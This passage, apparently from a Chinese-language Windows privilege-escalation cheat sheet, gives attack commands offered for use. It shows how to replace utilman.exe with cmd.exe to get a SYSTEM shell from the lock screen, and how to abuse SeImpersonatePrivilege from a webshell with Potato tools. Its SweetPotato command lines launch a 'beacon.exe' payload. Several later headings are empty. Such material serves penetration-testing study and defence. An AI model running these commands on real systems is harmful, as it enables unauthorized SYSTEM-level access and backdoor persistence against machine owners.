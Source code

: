 将原文件备份，并使用 cmd.exe 进行替换。

```plaintext
C:\Windows\system32>copy C:\windows\system32\utilman.exe C:\windows\system32\tasks\utilman.exe.back
        1 file(s) copied.

C:\Windows\system32>copy /y C:\windows\system32\cmd.exe C:\windows\system32\utilman.exe
        1 file(s) copied.
```

在锁屏界面 Win + U 或者点击右下角辅助功能即可弹出 cmd.exe，获取到 SYSTEM 权限。

#### 1.2.4 SeImpersonatePrivilege

在遇到 WebShell 情况下 IIS 或者是 SQL Server 这种 Windows 服务账户，可以先查询是否启用 SeImpersonatePrivilege 模拟权限，启用就使用 Potato Family 提升到 SYSTEM。

-   Rotten Potato
    
-   [Juicy Potato](https://3gstudent.github.io/Windows%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83%E5%B7%A5%E5%85%B7Juicy-Potato%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90)
    
-   Pipe Potato
    
-   [Sweet Potato](https://github.com/CCob/SweetPotato)，打包 Rotten Potato、Juicy Potato、Sweet Potato 利用方法，做了整合，方便一键利用，真香！
    
    直接上传上去挨个服务试。
    
    ```plaintext
     SweetPotato.exe -p beacon.exe
     SweetPotato.exe -e EfsRpc -p beacon.exe
     SweetPotato.exe -e DCOM -p beacon.exe
     SweetPotato.exe -e WinRM -p beacon.exe
    ```
    
-   [GodPotato](https://github.com/BeichenDream/GodPotato)，2023 年在历史土豆汇总的基础上又研究了新的 DCOM 利用方式。
    

#### 1.2.5 SeAssignPrimaryTokenPrivilege⚒️

#### 1.2.6 SeTcbPrivilege⚒️

#### 1.2.7 SeCreateTokenPrivilege⚒️

#### 1.2.8 SeLoadDriverPrivilege⚒️

#### 1.2.9 SeDebugPrivilege⚒️

### 1.3 Service

本章节所有漏洞 可以用 [powerup.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) 自动检测利用。

#### 1.3.1 Unquoted Service Path

在命令行里运行一条命令.

